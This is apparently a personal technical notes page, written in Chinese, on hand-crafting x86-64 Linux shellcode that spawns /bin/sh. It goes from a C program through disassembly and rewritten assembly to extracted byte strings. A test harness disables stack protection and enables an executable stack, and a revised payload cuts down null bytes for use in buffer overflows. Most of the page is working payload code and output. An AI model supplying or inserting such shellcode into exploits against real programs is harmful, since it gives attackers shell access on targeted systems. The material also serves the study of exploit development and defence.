 ```yaml
---
layout: default
title: shellcode_notes
categories:
- C++
tags:
- C++
---
```

//Description: how to write shellcode. 搜索到的基本上是x86的，少数x64的在自己的机器上也不管用，只有根据自己机器的实际情况自行写一遍。

//Create Date: 2020-04-15 15:43:04

//Author: channy

# shellcode_notes

## 1. 写源码

```c++
//shellcode.c
#include <stdio.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
	char *buf[2];
	buf[0] = "/bin/sh";
	buf[1] = NULL;
        execve(buf[0], buf, 0);
        return 0;
}
```

## 2. 反编译

```
gcc -o shellcode shellcode.c 
objdump -d shellcode > shellcode.s
```

## 3. 关注反编译中main部分

```
00000000000006aa <main>:
 6aa:   55                      push   %rbp
 6ab:   48 89 e5                mov    %rsp,%rbp
 6ae:   48 83 ec 30             sub    $0x30,%rsp
 6b2:   89 7d dc                mov    %edi,-0x24(%rbp)
 6b5:   48 89 75 d0             mov    %rsi,-0x30(%rbp)
 6b9:   64 48 8b 04 25 28 00    mov    %fs:0x28,%rax
 6c0:   00 00  
 6c2:   48 89 45 f8             mov    %rax,-0x8(%rbp)
 6c6:   31 c0                   xor    %eax,%eax
 6c8:   48 8d 05 c5 00 00 00    lea    0xc5(%rip),%rax        # 794 <_IO_stdin_used+0x4>
 6cf:   48 89 45 e0             mov    %rax,-0x20(%rbp)
 6d3:   48 c7 45 e8 00 00 00    movq   $0x0,-0x18(%rbp)
 6da:   00  
 6db:   48 8b 45 e0             mov    -0x20(%rbp),%rax
 6df:   48 8d 4d e0             lea    -0x20(%rbp),%rcx
 6e3:   ba 00 00 00 00          mov    $0x0,%edx
 6e8:   48 89 ce                mov    %rcx,%rsi
 6eb:   48 89 c7                mov    %rax,%rdi
 6ee:   e8 8d fe ff ff          callq  580 <execve@plt>
 6f3:   b8 00 00 00 00          mov    $0x0,%eax
 6f8:   48 8b 55 f8             mov    -0x8(%rbp),%rdx
 6fc:   64 48 33 14 25 28 00    xor    %fs:0x28,%rdx
 703:   00 00  
 705:   74 05                   je     70c <main+0x62>
 707:   e8 64 fe ff ff          callq  570 <__stack_chk_fail@plt>
 70c:   c9                      leaveq 
 70d:   c3                      retq   
 70e:   66 90                   xchg   %ax,%ax
```

从这步开始就和搜索到的大部分文章不一样了

## 4. 重写汇编

```
//scode.s
.section .text
.global _start
_start:
jmp c1
pp: popq %rcx #将字符串"/bin/sh"的地址存入rcx（通用寄存器），这里可以选择其它寄存器。
pushq %rbp #接下来的三条指令是建立一个新的栈空间
mov %rsp, %rbp
subq $0x30, %rsp
movq %rcx, -0x20(%rbp) #将字符串复制到栈
movq $0x0,-0x18(%rbp) #创建调用exec时的参数name[1]，将它置0.
mov $0, %edx
lea -0x20(%rbp), %rsi #这是execve第二个参数，它需要**类型，所以用lea传送地址给rsi。
mov -0x20(%rbp), %rdi #mov将字符串传给rdi，这是execve第一个参数。
mov $59, %rax #这个59是execve的系统调用号，在/usr/include/asm/unistd_64.h里可以查询到.
syscall #系统调用， 这个可以取代 int 0x80
c1: call pp

.ascii "/bin/sh"
```

然而自己的机器上include里面并没有asm/unistd_64.h文件
```
// /usr/include/asm-generic/unistd.h
607 #define __NR_execve 221
608 __SC_COMP(__NR_execve, sys_execve, compat_sys_execve)
```

```
// /usr/include/x86_64-linux-gnu/asm/unistd_64.h
63 #define __NR_execve 59
```

[reference](https://www.jianshu.com/p/5d1b1eafca21)

## 5. 编译和连接

```
as -o scode.o scode.s
ld -o scode scode.o
```

objdump反汇编scode，提取shellcode

```
for i in $(objdump -d scode | grep "^ " |cut -f2); do echo -n '\x'$i; done;
```

最后得到shellcode

```
\xeb\x2b\x59\x55\x48\x89\xe5\x48\x83\xec\x30\x48\x89\x4d\xe0\x48\xc7\x45\xe8\x00\x00\x00\x00\xba\x00\x00\x00\x00\x48\x8d\x75\xe0\x48\x8b\x7d\xe0\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05\xe8\xd0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

## 6. 验证

```c++
#include <stdio.h>

unsigned char code[] = "\xeb\x2b\x59\x55\x48\x89\xe5\x48\x83\xec\x30\x48\x89\x4d\xe0\x48\xc7\x45\xe8\x00\x00\x00\x00\xba\x00\x00\x00\x00\x48\x8d\x75\xe0\x48\x8b\x7d\xe0\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05\xe8\xd0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";

void main(int argc, char *argv[])
{ 
    long *ret; 
    ret = (long *)&ret + 2;  
    (*ret) = (long)code;
}
```

```
gcc shellcodeTest.c -o shellcodeTest -fno-stack-protector -z execstack
```

能够正常运行
```
ity$ ./shellcodeTest 
$ whoami
channy
```

## 7. 进阶

上面一段shellcode并不适用于缓冲区溢出，因为中间好多\x00啦～

> 还有一个注意的是0x20，这个在ascii里代表的是空，也会造成输入中断，输入函数返回。

```
.section .text
.global _start
_start:
jmp c1
pp: popq %rcx 
pushq %rbp 
mov %rsp, %rbp
subq $0x30, %rsp
movq %rcx, -0x20(%rbp) 
xorq %rax, %rax
movq %rax,-0x18(%rbp)
movq %rax, %rdx
lea -0x20(%rbp), %rsi
mov -0x20(%rbp), %rdi
mov $59, %rax
syscall 
c1: call pp

.ascii "/bin/sh"
```

```
\xeb\x28\x59\x55\x48\x89\xe5\x48\x83\xec\x30\x48\x89\x4d\xe0\x48\x31\xc0\x48\x89\x45\xe8\x48\x89\xc2\x48\x8d\x75\xe0\x48\x8b\x7d\xe0\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05\xe8\xd3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
```

//0: disable, 1: enable, 2: default
```
sysctl -w kernel.randomize_va_space=2
```

[back](./)

